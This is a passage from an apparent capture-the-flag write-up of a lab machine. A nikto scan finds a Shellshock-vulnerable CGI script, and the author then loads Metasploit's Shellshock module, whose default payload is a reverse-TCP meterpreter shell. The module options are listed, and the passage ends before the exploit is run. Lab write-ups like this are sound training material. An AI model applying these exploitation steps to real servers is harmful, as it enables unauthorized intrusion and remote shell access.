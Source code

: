 Tried the obvious (turtle, 0day, ryan, ... ), but no luck. :(

After trying for a long while without success, it becomes clear that essentially all the content of the webserver is just decoy ... 

A nikto scan reveals the real vulnerability:
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ nikto --host http://10.10.202.169
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.202.169
+ Target Hostname:    10.10.202.169
+ Target Port:        80
+ Start Time:         2020-10-22 07:13:25 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.7 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Uncommon header '93e4r0-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
[...]
~~~
Shellshock! Now that turtle-stuff makes sense!

We can easily exploit it with Metasploit
~~~
┌──(marco㉿kali-VM)-[~/Desktop/THM/0Day]
└─$ msfconsole -q                                                                                                                                      

msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI                        yes       Path to CGI script
~~~